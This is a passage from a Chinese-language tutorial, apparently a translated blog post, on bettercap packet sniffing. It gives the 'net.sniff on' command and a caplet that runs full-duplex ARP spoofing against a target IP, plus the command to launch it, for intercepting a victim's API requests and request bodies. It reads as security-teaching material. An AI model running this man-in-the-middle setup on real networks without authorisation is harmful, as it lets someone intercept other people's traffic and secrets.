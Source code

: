## 5.数据包嗅探

我们必须告诉`bettercap`捕捉所有流经这台电脑的数据，并为我进行分析。为此，我们将使用由`bettercap`提供的`net.sniff`模块。只需运行以下命令开始嗅探。

```
**bettercap-shell>** net.sniff on
```

![](img/0a263828122e2cd4bfdb0ff805beee89.png)

“net.sniff on”的输出

如您所见，我们能够看到 API 请求和请求体在客户机和互联网之间传输。

我们不得不为 ARP 欺骗编写如此多的`bettercap`命令。我们可以将所有这些命令写在一个`*.cap`文件中，其中`*`是任何文件名，并通过`bettercap`执行它们。为此，我将创建一个名为`arp-spoof.cap`的文件，其内容如下

```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets <target_ip>
arp.spoof on
net.sniff on
```

我们称之为胶囊。要执行它，请在终端中运行以下命令:

```
**$** bettercap -iface <interface_name> -caplet arp-spoof.cap
```
